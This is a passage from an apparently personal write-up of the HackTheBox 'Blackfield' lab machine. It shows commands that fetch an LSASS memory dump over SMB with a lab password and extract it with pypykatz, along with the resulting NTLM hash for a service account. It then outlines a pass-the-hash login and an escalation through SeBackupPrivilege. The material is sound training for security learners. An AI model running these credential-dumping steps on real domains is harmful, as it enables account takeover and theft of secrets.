 Download the zip file into our host with prompt:

```bash
smbget -R smb://audit2020:'Password123'@10.10.10.192/forensic/memory_analysis/lsass.zip
```

after unzip this lsass.zip we will find file lsass.dmp, actually we can dump this file using [pypykatz](https://github.com/skelsec/pypykatz) tools. 

```powershell
┌─[root@unknown101]─[10.10.14.14]─[~/Desktop/hackthebox/ActiveDirectory/Blackfield]
└──╼ #ls | grep lsass.
lsass.DMP
lsass.zip
```

Exec command below for extracting DMP file :

`pypykatz lsa  minidump lsass.DMP -o dump.txt`

retrieve an information contains NTLM hash for svc_backup user, use the following hash to login using evil-winrm. 

```powershell
┌─[root@unknown101]─[10.10.14.14]─[~/Desktop/hackthebox/ActiveDirectory/Blackfield]                                                                           
└──╼ #cat dump.txt
[..] 
Username: svc_backup
Domain: BLACKFIELD
LM: NA
NT: 9658d1d1dcd9250115e2205d9f48400d
SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
DPAPI: a03cd8e9d30171f3cfe8caad92fef621
[..]
Username: svc_backup
```

![](/assets/img/blackfield/9.png)

## Privilege Escalation

in privilege information sections i found `SeBackupPrivilege` and `SeRestorePrivilege` enabled, this privilege is highly vulnerable because we can backup anything from server such as `NDTS.dit`,`Security Account Manager(SAM)`.
